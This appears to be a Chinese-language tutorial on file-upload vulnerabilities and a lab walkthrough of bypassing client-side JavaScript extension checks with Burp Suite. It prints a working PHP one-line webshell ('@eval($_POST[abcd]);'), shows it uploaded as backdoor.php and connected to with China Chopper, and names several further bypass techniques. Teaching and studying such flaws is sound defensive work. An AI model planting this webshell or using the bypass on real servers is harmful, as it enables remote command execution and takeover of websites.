前台JS验证审计+绕过
# 文件上传漏洞
在讲前台 JS 绕过之前，由于是文件上传漏洞探究系列的第一讲，先来简单介绍一下文件上传漏洞。
# 文件上传漏洞的原因
- 对于上传文件的后缀名 (扩展名) 没有做较为严格的限制
- 对于上传文件的 MIMETYPE (content-type，用于描述文件类型的一种描述方法)，没有做检查
- 权限上没有对于上传的文件目录设置不可执行权限
- web server 对于上传文件或者指定目录的行为没有做限制。
在 Web 中进行文件上传的原理是通过将表单设置为 multipart/form-data ，同时加入文件域，而后通过 HTTP 协议将文件内容发送到服务器，服务器端读取这个分段（multipart）的数据信息，并将其中的文件内容提取出来并保存。
通常，在进行文件保存的时候，服务器端会读取文件的原始文件名，并从这个原始文件名中得出文件的扩展名，而后随机为文件起一个文件名（为了防止重复），并且加上原始文件的扩展名来保存到服务器上。
# 文件上传漏洞的危害
- 上传 web 木马文件、控制 web 服务器文件、远程命令执行等
- 上传系统病毒、木马文件进行挖矿、僵尸网络
- 上传系统溢出程序进行权限提升
- 修改 web 页面实现钓鱼、挂马、暗链等操作
- 内网渗透
- 在权限得到提升的情况下，想做什么就做什么
# 文件上传合法性检测方法
- 前端 Js 验证
- MIME 类型验证
- 黑名单 / 白名单
- 检查文件内容 (getimagesize () 函数用于获取图像信息、校验关键字)
- 禁止本地文件包含漏洞
- 使用安全的 web 服务 (Apache、nginx (/test.png/xxx.php)、IIS 解析漏洞 (1.php;jpg))
# 文件上传漏洞 8 种常见绕过方法
（整体会有 20 多种，这里列举常见 8 种）
- 前端 Js 绕过
- MIME 类型绕过
- 后缀名大小写绕过 /php4、php5
- 00 截断
- 覆盖.htaccess
- Windows 文件流特性绕过
- 双写文件名绕过
- 条件竞争
# 文件下载漏洞概念
- 一些网站由于业务需求，往往需要提供文件查看或文件下载功能，但若对用户查看或下载的文件不做限制，则恶意用户就能够查看或下载任意敏感文件，这就是文件查看与下载漏洞。
- 下载服务器任意文件，如脚本代码、服务及系统配置文件等可用得到的代码进一步做代码审计，得到更多可利用漏洞。
# 如何查找任意文件下载漏洞呢？
查找传入文件名的参数：
- 导入文件等参数，要是直接输入文件名，就有可能有注入点。
注意如下几个参数名：
- RealPath, FilePath, filepath, Path, path, inputFile, url, urls, Lang, dis, data, readfile, filep
- src, menu, META-INF, WEB-INF
代码中如何查找漏洞：
PHP 为例，有如下代码，就有可能存在任意文件下载漏洞
- readfile
- fopen
- file_get_contents
# Windows 敏感文件路径

# Linux 敏感文件路径

# 修复文件下载漏洞
PHP 为例：
- 过滤.(点)，使用户在 url 种不能回溯上级目录
- 正则严格判断用户输入参数的格式
- php.ini 配置 open_basedir 限定文件访问范围
OK，进入主题
# 配置虚拟主机
虚拟主机，能够将我们的多个 apache 做成域名的方式访问。
打开 phpStudyB\Apache\conf\httpd.conf 文件，一共修改两处：
- 取消 LoadModule 关于 vhost_alias 的注释

- 取消 Virtual hosts 的 Include 所在行注释

再打开 C:\phpStudyB\Apache\conf\extra\httpd-vhosts.conf 文件

接下来就是重启 phpStudy 就行了。
# 一句话木马
@eval($_POST[abcd]); |
简而言之，就是只有一句代码的木马。@eval 就是执行一些传的参数命令，$_POST 接收我们的 POST 请求，参数的名称是 abcd。总之，就是可以 执行 我们发送的带参数的命令请求。
功能是实现：数据库管理、生成虚拟终端、文件管理。
# 前台 JS 验证审计 + 绕过
# 前台 Js 验证审计
上传 backdoor.php (含有一句话木马)

ok，我们开始抓包
启动 BurpSuit，intercept on，结果再次点击上传按钮，却没有抓到任何的包
我们 F12 看源码进行代码审计
# 上传按钮代码审计
首先我们知道，重要的上传逻辑肯定在这些字样的附近：

那么我们找到 " 上传区 "、" 请选择要上传的图片 " 这个字样，就能精准定位到相关源码附近。

上面一段代码的主要逻辑：
-
属于
form数据，使用POST请求 -
有两个输入
input：-
一个是 input_file，类型是
file，命名为 upload_file，意为待上传的文件。 -
一个是 button，类型是
submit，命名为 submit，按钮名称为 “上传”
-
-
form请求在点击 submit 时会触发的方法 ——onsubmit- return checkFile ()：属于
JavaScript(简称Js)语法，意为将会调用checkFile()，并将其结果返回 onsubmit就是在提交之前验证上传文件的合法性，属于前端验证
- return checkFile ()：属于
好的，继续来看一下关键的 checkFile() 函数都干了什么：

checkFile () 函数主要逻辑：
-
通过
getElementsByName()函数，参数为upload_file来获取其数组中第一个元素值 (下标从 0 开始)—— 也就是 upload_file 对应的文件。 -
如果
upload_file对应的文件为空，那么就弹出 "请选择要上传的文件！" -
如果非空，则继续往下走
- 定义了允许上传的文件类型为 “.jpg| .png| .gif”
-
通过 lastIndexOf 函数获取
最后一个.出现的位置进行截取字符串，获得的是最后一个.右边的字符串 —— 获得上传文件后缀名 -
判断
上传文件后缀名是否在刚刚定义的类型里面- 如果不在则弹出 “该文件不允许上传…”，并 return
false - 否则 return
true
- 如果不在则弹出 “该文件不允许上传…”，并 return
# 前台 Js 验证绕过
我们再次刷新上传页面，使用 BurpSuit 抓到页面返回的源码信息

直接找到刚刚定位的 checkFile () 函数，将其内容改成 return true; ，意为无论什么文件，恒返回真。

点击 "Forward" 按钮。
然后上传我们的一句话木马，backdoor.php，点击 “上传”，之后就可以成功抓到包。

之后一顿 Forward，提交过去。
显示了我们上传的 php，即上传成功。

我们使用中国菜刀连接获取 webshell 即可。